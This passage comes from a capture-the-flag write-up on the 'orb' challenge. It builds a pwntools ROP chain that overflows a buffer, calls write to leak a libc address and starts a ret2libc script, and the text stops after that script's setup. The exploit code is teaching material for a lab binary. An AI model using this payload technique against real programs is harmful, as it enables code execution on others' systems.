 * Since the binary utilizes static addresses, we can check the address of the bss section as follows 
![ㅤ](../../../images/PlayCyber/20240130123415.png)


### Leaking Libc Addresses
* The write syscall , takes the following arguments `ssize_t write(int fildes, const void *buf, size_t nbyte);`
	* `fildes` is the file descriptor which can be `stdin(0)`, `stdout(1)` and `stderr(2)`. We will store this value in the `rdi` register
	* `*buf` is the buffer to write . We will store this value in the `rsi` register i.e the bss address we obtained
	* `nbyte` is the number of bytes to write. We will store this value in the `rdx` register
* To write a rop chain that calls the `write` syscall with the above parameters, we can search for suitable gadgets in the binary to use in our ropchain
![ㅤ](../../../images/PlayCyber/20240130121921.png)

* From the gadgets in the binary, we do not have the `pop rdx` gadget, we can ignore it and use the value of rdx that will be stored before execution is redirected to our ropchain. Other than that our ropchain will appear as follows
```python
# Gadgets we need 
pop_rbp_ret=0x401139#: pop rbp; ret; 
pop_rdi_ret=0x40127b#: pop rdi; ret; 
pop_rsi_r15=0x401279#: pop rsi; pop r15; ret; 
ret=0x401016#: ret;

bss=0x404010 # start of the .bss section

offset=40
payload=b"A"*offset 
payload+=p64(ret) 
payload+=p64(pop_rdi_ret) # Call the pop_rdi gadget to set the first param of the write syscall
payload+=p64(0x1) # set the first param to stdout i.e 1
payload+=p64(pop_rsi_r15) # Call the pop_rsi;pop_r15;ret gadget to set the second param of the write syscall
payload+=p64(bss) # set the second param to addr of bss i.e 0x404010
payload+=p64(0xdeadbeef) # set a random value to r15 since we don't need it
payload+=p64(elf.plt['write']) # call the write syscall in plt
```

* After sending the payload , we get a libc address leaked which we can later use to calculate the libc base address and call a `one_gadget` or `system`

![ㅤ](../../../images/PlayCyber/20240130125318.png)

* Checking the libc address leaked, we see that it points to  `_IO_2_1_stdout_` which is a function in libc
![ㅤ](../../../images/PlayCyber/20240130125218.png)

### Ret2Libc
* Now we can calculate the libc base and call system as follows
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#  @author: zerofrost
from pwn import *
context.binary = elf = e = ELF("./orb_patched")
context.log_level='critical'
target=process([filename])
libc_file="./glibc/libc.so.6"
libc=ELF(libc_file)

```